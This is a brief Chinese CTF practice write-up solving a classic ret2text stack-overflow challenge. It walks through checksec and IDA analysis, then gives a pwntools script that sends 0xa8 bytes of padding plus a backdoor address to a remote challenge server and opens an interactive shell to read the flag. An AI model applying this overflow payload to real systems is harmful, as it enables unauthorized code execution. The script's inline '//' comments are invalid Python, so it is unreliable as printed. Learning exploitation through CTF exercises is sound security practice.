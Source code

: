 

[TOC]



# pwn练习题

## 经典栈溢出之 ret2text / ret2win

###  pwnstack

解题步骤

1.检查程序安全机制

```shell
checksec pwn2
```

2.IDA逆向分析

3.找到后门函数的开始地址

4.编写exp

```python
from pwn import *
p=remote("61.147.171.105",59432)
payload=b'a'*0xa8+p64(0x400762)
//b:表示'a'*0xa8是字节串
//p64():把 64-bit 整数变成 8 个字节的 bytes
//0xa8:观察到char buf[160];之后再加上保存的 RBP（8 字节），总偏移为 160 + 8 = 168（0xa8）
p.sendline(payload)
p.interactive()
```

5.ls查看文件，然后发现有一个叫flag的文件，cat查看文件，得到flag